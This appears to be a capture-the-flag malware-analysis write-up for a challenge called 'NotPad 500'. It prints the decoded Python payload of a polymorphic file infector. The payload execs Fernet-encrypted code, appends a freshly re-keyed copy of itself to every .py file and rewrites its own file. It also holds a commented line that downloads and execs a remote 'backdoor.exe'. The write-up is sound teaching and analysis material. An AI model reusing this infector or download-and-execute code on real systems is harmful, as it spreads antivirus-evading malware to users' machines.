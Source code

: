 #    NotPad 500 - Malware Analysis Writeup

## Challenge Descritption


While scrolling through my email, I stumbled upon a mail that says I won NotePad premium. I installed it ofc why wouldn't I. But it's just normal notepad :(
    
Flag format: Securinets{Server_flagVar_MaliciousDownloadName_VirusType}

**(Note: Although this is a malware analysis task, this file is totally secure and indeed try executing it. Some antiviruses will flag it as a malware, but, once again, its totally secure to execute it and analyse it.)**

---

## Provided Files

[notPad.bat](taskFiles/notpad/sandbox/notPad.bat)

---

## Initial Analysis

For this challenge, we're provided with the malware inside a sandbox folder. It's windows batch script, and the folder contains some normal python files.

Upon executing the malware, a terminal fires up with a pip install command then notepad opens up and the terminal is closed. The malware will also get deleted in an attempt to hide its trace.

Now let's take a look at our python files. As expected, the files got modifed.

![Modified python files](assets/files.png)

Taking a look at the script with a text editor, we can see that there's some base64 obfuscated code that gets output to a python file and then executed.

Let's analyse this code. The base64 decrypted payload will be this.

```py
import os
from cryptography.fernet import Fernet


def decrypt(token, key):
   fer = Fernet(key)
   virus = fer.decrypt(token).decode()
   exec(virus)


# START
key = "dsTkswm0UnI9gt4KTTI3zmYGg0KCrCWy-8lvbrdkQek="
token = "gAAAAABnAmBTGqcp5qEzt6jkUd7TeARRgeYfqOSVRpct0qn0WV-RAhVtLjM7456lQJ1LvBdjG3x4OSs1Q2hj7FLoUAo379Tg0f5z4pBEgn22AP0Xb7j_E5244_EWO-QYJb72aptqJzvQ7kXVn29UUzXyBTEHvTz0AyEPzpTpfkDCk3WGUlKAqcU6Dd8LNyU7lIIe_vHd6Z5tbt7Oe0Oha7j-OuN2YLIAwPWyNzCoXVlJlHdywKHlshpgS00jY7BEMlCsM_gZAullCoW1F1tTi4KnjvAnPxE3EO107RKF7-5syOuUFMdFP0vCCsofLWRRPvZIvzjAATnh2OfOL5yf_Ou5qMpWQHNYqWQowmS-i55bFIN0i8bg-Xz_aaqh4Ih783nmezjOCtb7tsTVRTgOtq33Ub2iIttUhLFvgHS9biwWXIjJOjLwPpSMY68-4kuhzKkcF09h5faJZi3hXt1zKyMA4_OeUvNPUis7qbJh-xXy-CL75nEjcP2no0cxPKnbcB6S1-tg7sQgqUYxfRsZ0jaDVr0YaW4Sa6tl_n1qCpodZHykYcNf8L6kdUI_oHwXVrtaw-DVbR3BEqlMoxo2pnrxW74sMs7f3xWSbBBJxs4gCsoOScaMBz-sIXEJjz4NEDb4FXtEbIE0WMOp0v2TfLE0B4F5MqQSqusLqTsPOpKr7LrGa4mUoOFZ84yhZfgJFgo7t41jXG2wrQPi1-42sphHoxILIKvXxbvFdXfr60ypWTCdY4Pp0wEpyWYbg-4Tm5xaRW8FAB2YYR2_PgMTG7LukF7VZ--TkuQopexgDMcKAnDqmZvqg3l18jvLIrIThgJwNnRhoNwELCP3QMnxSPt7xjOxQ5ZQEh2EtV2tl3gQRAKC-TviKi8_RBU7W8XQDNRqe9tzllzL2epm6DVX67K_XgTw75AvlXWdWy6GmjHYep90FMVKXjGm4fAiALS_K2NiMjskgr5c6-cT_HLaXycnfbdQ4RUQCdC5zrhnul7fgYHDdzjm5aVbbInGt_RNGoAJ3FR0h7KEzqCewLZiotFedtuJHFx7OFt_GojOgzSLOz7ijhBxbT3b0Yj6TTVuoU4KTwOWiyElvlbYXbgplltMDHyZV-ACdfqq21cKlRxeXjJO6ZHHbLFQjY-8jQovdKcejiunUXEAM-VRZLB4Kb8WBvN6K9buSFukbMDp6l1nikH8AYEVPbF_l6nGbt74ZC7FxG5j579GbrB7Gg9E1kexIyTj4DelEne84o6ghT4FqWnNNyJyIkkoO65ca3YcxWcLeNrhdwFhroqQEHCyG-XNexzeZvxk8cDx6ZEqpW0ClNcblN6KDc55quUvHsQLVWPFQggfEVukMVnc_VzyMKeGppMuzDkyj2piNPqmVzxZ_3DO4ys22foFriy9oKBdnKv45ie1iKf6LZvWZsdo3Rihmxk-GVf78g=="

def run():
   def execute():
       with open("ByeBye.txt", 'w') as file:
           file.write("You just got hacked.\n")
           flag = "W0W_M4l1ci0us"
           # import requests; exec(requests.get("https://Securinets{Evil_/backdoor.exe").text);

   
   execute()
   global key
   global token

   fer = Fernet(key)
   virus = fer.decrypt(token).decode()

   key = Fernet.generate_key()
   fer = Fernet(key)
   token = fer.encrypt(virus.encode())

   if os.path.basename(os.getcwd()) != "sandbox":
       print("This script can only run in the 'sandbox' directory.")
       exit()
   for root, dirs, files in os.walk("."):
           for file in files:
               if file.endswith(".py"):
                   
                   file_path = os.path.join(root, file)
                   with open(file_path, 'a') as f:
                       f.write("\nimport os\n")
                       f.write("from cryptography.fernet import Fernet\n")
                       f.write("def decrypt(token, key):\n\tfer = Fernet(key)\n\tvirus = fer.decrypt(token).decode()\n\texec(virus)\n")
                       f.write("key = \"{}\"\n".format(key.decode()))
                       f.write("token = \"{}\"\n".format(token.decode()))
                       f.write("\ndecrypt(token, key)\n")

   fname = os.path.basename(__file__)
   lines = []
   with open(fname, 'r') as f:
       lines = f.readlines()
   
   with open('lol', 'w') as f:
       for line in lines:
           if line.startswith("# START"):
               break
           f.write(line)

       f.write("# START\n")
           
       f.write("key = \"{}\"\n".format(key.decode()))
       f.write("token = \"{}\"\n".format(token.decode()))
       f.write("\ndecrypt(token, key)\n")
       


   os.remove(fname)
   os.rename("lol", fname)


run()
```

Well, this some weird code. First it defines a decrypt function that uses Fernet algorithm and executes the decrypted token. We can guess that some malicious payload is embedded there. It then defines the tocken and the key. The run() function contains the malicious script. First, the execute() function will contain the actual malicious code. After its execution, which is downloading a remote script and executing it, we move on to the file propagation logic. Let's first write down the server: **Securinets{Evil_**, the downloaded script name **backdoor.exe** and the commented flag: **W0W_M4l1ci0us**.
The propagation logic is quite simple, it recreates the token by generating a new key, then reads every python file in the local directory and appends the decrypt function and the token/key.

So now, whenever any Python file on the victim's machine is executed, the original code runs without any issues. However, after that, the malicious payload is executed as well, and an antivirus program would likely trust it because it originated from a trusted file. But this isn't the main trick. The most significant characteristic of this malware is that it changes with each execution.

This is the first execution:

![first exec](assets/modified1.png)

This is the second one:

![second exec](assets/modified2.png)

As you can see, each time the token or key changes. If the antivirus software begins to suspect the code, it will lose track of it whenever it changes since the hash value will also change. This type of malware is known as **polymorphic viruses**.

*Polymorphic viruses are complex file infectors that can create modified versions of itself to avoid detection yet retain the same basic routines after every infection. To vary their physical file makeup during each infection, polymorphic viruses encrypt their codes and use different encryption keys every time.*

**Flag: Securinets{Evil_W0W_M4l1ci0us_backdoor.exe_Polymorphic}**

### Note

If you want to test out this code and read the values of the tokens use [this decription sample code](solver/dec.py).

If you're wondering about these lines:

```py
if os.path.basename(os.getcwd()) != "sandbox":
       print("This script can only run in the 'sandbox' directory.")
       exit()
```

**Its purpose is protecting you, the player, in case this malware was executed in a directory other than the sandbox. Please note that you're responsible for your own actions if you decide to remove that function and run the malware.**
